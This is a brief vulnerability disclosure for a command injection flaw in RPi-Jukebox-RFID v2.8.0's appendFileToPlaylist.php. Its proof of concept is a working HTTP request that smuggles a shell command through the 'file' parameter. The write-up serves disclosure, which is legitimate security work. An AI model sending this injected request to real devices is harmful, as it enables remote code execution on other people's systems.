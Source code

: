 # RCE vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /appendFileToPlaylist.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- \htdocs\api\playlist\appendFileToPlaylist.php

**Version**

- 2.8.0

### POC

```
GET /api/playlist/appendFileToPlaylist.php?file=test%27;id%3E1.txt; HTTP/1.1
Host: 192.168.129.130
```

![image-20250828225217844](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508282252939.png)

![image-20250828225256664](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508282252741.png)